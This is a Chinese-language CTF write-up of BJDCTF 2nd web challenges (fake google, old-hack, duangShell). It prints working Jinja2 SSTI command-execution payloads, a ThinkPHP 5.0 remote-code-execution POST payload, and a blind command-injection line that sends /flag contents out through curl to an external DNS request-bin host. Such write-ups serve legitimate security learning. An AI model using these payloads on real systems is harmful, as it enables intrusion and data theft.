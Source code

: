 ```python
```
得到密码，admin进入即可得到flag
![](https://img-blog.csdnimg.cn/20200323205223860.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
![](https://img-blog.csdnimg.cn/20200323205319300.png)
真的没想到直接爆password，然后16进制代替'^'也很巧妙

## [BJDCTF 2nd]fake google
这题ssti注入，网上也有payload，我找的是这个：[SSTI (服务器模板注入)](https://blog.csdn.net/qq_40657585/article/details/83657220?depth_1-utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task)
首先进入发现是一个搜索框，试试
```python
{{7*7}}
```
![](https://img-blog.csdnimg.cn/20200324095649694.png)
变为了49，那么就可以套用payload了，直接命令执行
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()") }}{% endif %}{% endfor %}
```
或者直接用师傅的payload
```python
{{ config.__class__.__init__.__globals__['os'].popen('cat /flag').read() }}
```
![](https://img-blog.csdnimg.cn/20200324100237769.png)
## [BJDCTF 2nd]old-hack
这题很明显是thinkphp5的漏洞，在网上找到相应的payload即可，我找的是这个：[ThinkPHP5.0.*版本代码执行漏洞](https://blog.csdn.net/xuandao_ahfengren/article/details/86333189)
POST提交`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls`
![](https://img-blog.csdnimg.cn/20200324101102357.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
试试cat /flag就得到了flag：`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /flag`
![](https://img-blog.csdnimg.cn/2020032410124077.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
试了好多payload才成功的，有些payload会报错
## [BJDCTF 2nd]duangShell
我做出来的最后一题，后面的就不会了，首先提示.swp，那么首先下载
![](https://img-blog.csdnimg.cn/20200324101709414.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
在linux下使用vim修复即可得到源码`vim -r index.php.swp`
![](https://img-blog.csdnimg.cn/20200324102426121.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
使用post传girl_friend，并且还要绕过正则匹配，主要的是使用exec()，这个函数使无回显的，由于我之前见过无回显情况，使用的是curl
使用内网的DNS服务
![](https://img-blog.csdnimg.cn/20200324102847787.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
首先POST传`girl_friend=curl 111111.5982bd2d233be1da76ca.d.dns.requestbin.buuoj.cn`
得到了回显
![](https://img-blog.csdnimg.cn/20200324103125181.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
那么可以使用``执行命令了
```javascript
girl_friend=curl `tac /flag`.5982bd2d233be1da76ca.d.dns.requestbin.buuoj.cn
```
怎么和我做的时候不一样，还要找flag。。。
最后在/etc/demo/P3rh4ps/love/you/flag找到了flag，这里我还是用师傅的方法，反弹shell
首先创建一个小号，然后使用xshell连接linux靶机并登录即可使用，首先查看ip
`ifconfig -a`
![](https://img-blog.csdnimg.cn/20200324130907586.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)